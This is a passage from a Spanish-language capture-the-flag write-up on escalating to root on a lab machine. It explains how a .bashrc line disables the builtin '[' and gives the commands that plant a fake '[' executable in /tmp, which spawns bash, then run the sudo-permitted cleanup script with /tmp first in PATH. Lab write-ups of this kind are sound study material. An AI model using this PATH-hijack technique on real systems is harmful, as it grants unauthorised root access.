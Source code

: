 Este script carga su configuración de un `.bashrc` ubicado en el mismo directorio y luego hace una copia del `photobomb.log`, por último, con `find` protege las imágenes originales.

Revisemos `.bashrc`:

```shell-session
# System-wide .bashrc file for interactive bash(1) shells.  
  
# To enable the settings / commands in this file for login shells as well,  
# this file has to be sourced in /etc/profile.  
  
# Jameson: ensure that snaps don't interfere, 'cos they are dumb  
PATH=${PATH/:\/snap\/bin/}  
  
# Jameson: caused problems with testing whether to rotate the log file  
enable -n [ # ]  
  
# If not running interactively, don't do anything  
[ -z "$PS1" ] && return  
  
# check the window size after each command and, if necessary,  
# update the values of LINES and COLUMNS.  
shopt -s checkwinsize  
  
-- SNIP --
```

Ninguno de estos dos archivos tiene permisos de escritura, por lo que debe haber una forma de ganar acceso al `root` **con solamente ejecutarlos**. Algo raro que se hace en `.bashrc` es lo que está en la _línea 10_: `enable -n [`, lo que esto hace es deshabilitar el comando `[` (sí, el corchete es un comando).

![image](/assets/images/maquinas/Pasted image 20230727103119.png)

Así que, cuando se ejecuta el script `cleanup.sh`, el binario `[` nativo no será ejecutado, dándonos oportunidad de especificar la ruta de un binario con el mismo nombre, pero que nos sea más útil.

### Ejecutable malicioso
Creemos un ejecutable llamado `[` que será el que se ejecute cuando lancemos el script como **root**. Su contenido será una simple llamada a una `bash`, que se ejecutará bajo el mismo usuario que el script, es decir, **root**.

```shell-session
$ cd /tmp
$ cat > [
bash
^C
$ chmod +x [
```

Ahora, lo que queda hacer es lanzar el script **incluyendo en el `PATH`** la ruta de nuestro ejecutable malicioso en primer lugar para garantizar que se ejecute antes de cualquier otro binario con el mismo nombre:

```shell-session
$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

### Segunda bandera
Boom. Tenemos una bash como usuario root.

![image](/assets/images/maquinas/Pasted image 20230727104551.png)


